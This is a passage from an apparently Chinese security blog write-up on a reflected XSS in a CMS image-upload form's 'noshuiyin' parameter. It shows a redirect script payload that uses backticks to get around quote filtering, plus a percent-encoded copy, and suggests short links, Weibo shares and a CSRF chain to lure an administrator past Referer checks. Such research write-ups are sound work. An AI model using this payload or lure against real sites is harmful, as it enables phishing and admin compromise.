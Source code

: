 > [http://localhost/](http://localhost/)  
> uploadimg\_form.php?noshuiyin="/><script>location.href=`http://localhost/test.html`</script>

这里有个 Tips，因为前文说了，过滤了单双引号，而想要跳转链接就避免不了的使用单双引号，后来请求师傅们帮助，得到了解决方法。使用 \` 代替单双引号即可！  
在加密混淆一下：

> [http://127.0.0.1/](http://127.0.0.1/)  
> uploadimg\_form.php?noshuiyin=%22%2f%3e%3c%73%63%72%69%70%74%3e%6c%6f%63%61%74%69%6f%6e%2e%68%72%65%66%3d%60%68%74%74%70%3a%2f%2f%6c%6f%63%61%6c%68%6f%73%74%2f%74%65%73%74%2e%68%74%6d%6c%60%3c%2f%73%63%72%69%70%74%3e

或者短连接：  
![](https://www.cnpanda.net/usr/uploads/2017/12/1002219980.png)

![](https://www.cnpanda.net/usr/uploads/2017/12/3820671327.png)  
或者最后再来一个分享到微博：  
![](https://www.cnpanda.net/usr/uploads/2017/12/918820226.png)  
这个链接美滋滋~~  
可能有人问为何要将这个链接给加密而不直接给自己搭建的钓鱼地址加密，原因就在于 referer 验证了，有的 CSRF 没有 token 的限制但是还有 Referer 的限制，不过这个 CMS 是没有 Referer 限制的，直接在自己的服务器上搭建那个 payload 让管理员访问就可以了，这里只是提供一个如果有 referer 验证应该如何绕的例子。

使用微信扫描二维码完成支付

![](https://www.cnpanda.net/usr/themes/sec/img/alipay-2.jpg)